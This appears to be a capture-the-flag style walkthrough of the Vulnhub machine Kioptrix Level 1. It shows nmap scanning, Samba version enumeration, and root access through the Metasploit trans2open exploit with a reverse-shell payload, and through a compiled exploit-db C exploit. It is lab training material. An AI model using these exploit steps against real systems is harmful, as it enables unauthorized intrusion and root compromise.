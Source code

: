 ```yaml
---
title: Kioptrix Level 1 Vulnhub Walkthrough
date: 2019-08-31 00:15:21 GMT+2
categories: [Vulnhub]
tags: [vulnhub, boot2root, ethical hacking]     # TAG names should always be lowercase
image: /assets/img/posts/kioptrix1/kioptrix1.png
---
```


## Machine Info
* Difficulty: Easy
* Goal: Gain root access

## Network Scanning

### Netdiscover
We run netdiscover to get the IP address of kioptrix level 1 through the host-only adapter interface (eth1).

```bash
netdiscover -i eth1
```

![netdiscover](/assets/img/posts/kioptrix1/1.png)

### Nmap
After we got the IP address of the target machine, we run nmap to scan all ports and enable OS detection, version detection, script scanning, and traceroute to discover the open ports and services that are running on the target.

```bash
nmap -p- -A 192.168.56.110
```

![nmap](/assets/img/posts/kioptrix1/2.1.png)
![nmap](/assets/img/posts/kioptrix1/2.2.png)

## Enumeration
### Finding smb version
As a result of nmap scan, we have a bunch of open ports and services. Let's start to enumerate smb service on port 139. We run metasploit to discover the version of smb. In the metasploit console, we search for smb to get the auxiliary that will help us to discover the version of smb. Then we use "/auxiliary/scanner/smb/smb_version" (#61) and set RHOSTS to the target IP address and run.

```bash
msfconsole
search smb
use 61
options
set RHOSTS 192.168.56.110
run
```
![smb_version](/assets/img/posts/kioptrix1/4.png)
![smb_version](/assets/img/posts/kioptrix1/5.png)

## Exploitation

### Method 1: trans2open Overflow (Metasploit)
After we got the version of smb that is running on the target machine which is (Samba 2.2.1a), we use searchsploit to search for any exploit offline and we found some exploits that we can use also you can search for exploits online using your browser.

```bash
searchsploit Samba 2.2.1a
```

![searchsploit_trans2open](/assets/img/posts/kioptrix1/6.1.png)

From the results of searchsploit, we decided to select “trans2open Overflow” that has an existed module in metasploit. Therefore, we turn on the metasploit console and search for trans2open then we select "exploit/linux/samba/trans2open" (#1) since our target machine is linux. After that, we set RHOSTS to the IP address of the target machine then we run the exploit. But as depicted in the second image below, the exploit did not work and all the opened sessions are closed.

```bash
msfconsole
search trans2open
use 1
options
set RHOSTS 192.168.56.110
run
```

![trans2open](/assets/img/posts/kioptrix1/7.png)
![trans2open](/assets/img/posts/kioptrix1/8.png)

Therefore, we checked the payload and we decided that we are going to change the previous staged payload which is "linux/x86/meterpreter/reverse_tcp" to un-staged payload which is "linux/x86/shell_reverse_tcp". And finally, the exploit worked successfully and we gained root access to the target machine.

```bash
options
set payload linux/x86/shell_reverse_tcp
run
id
```

![root_access](/assets/img/posts/kioptrix1/9.png)

### Method 2: Remote Code Execution
We try to use another exploit to gain access to the target machine, but this time the exploit is manual. We run searchsploit as the previous time and select "Remote Code Execution" exploit to download it on our kali linux machine using mirror option "-m".

```bash
searchsploit Samba 2.2.1a
searchsploit -m multiple/remote/10.c
```

![searchsploit_RCE](/assets/img/posts/kioptrix1/10.png)

After we downloaded the exploit, we compile it using gcc and run it against our target machine. And we got the root shell on the target machine.

```bash
gcc 10.c -o 10
./10 -b 0 -v 192.168.56.110
whoami
uname -a
```

![searchsploit_RCE](/assets/img/posts/kioptrix1/11.png)
